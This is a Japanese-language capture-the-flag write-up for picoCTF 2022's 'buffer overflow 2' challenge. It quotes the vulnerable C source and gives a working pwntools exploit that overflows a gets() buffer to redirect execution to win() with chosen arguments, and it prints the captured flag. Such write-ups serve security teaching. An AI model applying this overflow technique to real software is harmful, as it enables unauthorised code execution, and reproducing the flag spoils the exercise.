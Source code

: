# buffer overflow 2:Binary Exploitation

Control the return address and arguments\
This time you'll need to control the arguments to the function you return to! Can you get the flag from this [program](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202022/buffer%20overflow%202/vuln)? You can view source [here](https://github.com/colza12/ctf_writeup/blob/main/picoCTF%202022/buffer%20overflow%202/vuln.c). And connect with it using `nc saturn.picoctf.net 60902`

# Solution

とりあえず`nc saturn.picoctf.net 60902`を実行してみる。
```
$ nc saturn.picoctf.net 60902
Please enter your string: 
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
```
入力した文字がそのまま出てくるようだ。ソースコードを見てみる。
```c
void vuln(){
  char buf[BUFSIZE];
  gets(buf);
  puts(buf);
}
```
`BUFSIZE=100`でbufをそのまま出力している。
```c
void win(unsigned int arg1, unsigned int arg2) {
  char buf[FLAGSIZE];
  FILE *f = fopen("flag.txt","r");
  if (f == NULL) {
    printf("%s %s", "Please create 'flag.txt' in this directory with your",
                    "own debugging flag.\n");
    exit(0);
  }

  fgets(buf,FLAGSIZE,f);
  if (arg1 != 0xCAFEF00D)
    return;
  if (arg2 != 0xF00DF00D)
    return;
  printf(buf);
}
```
flagが出てきそうなwin関数がある。`arg1==0xCAFEF00D`かつ`arg2==0xF00DF00D`である必要がありそうだ。win関数のアドレス値は`64: 08049296   162 FUNC    GLOBAL DEFAULT   15 win`より、0x08049296である。`何らかの文字列100+12文字+0x08049296+リターンアドレス+arg1+arg2`のような入力になるはず。

以下、実行コード。
```python
from pwn import *

p = remote("saturn.picoctf.net", 60902)

payload = b"a"*112
payload += p32(0x08049296)
payload += p32(0x08049372) # ここは何でも良い
payload += p32(0xCAFEF00D) + p32(0xF00DF00D)

p.sendline(payload)

p.interactive()
```
フラグが得られた。

`picoCTF{argum3nt5_4_d4yZ_27ecbf40}`

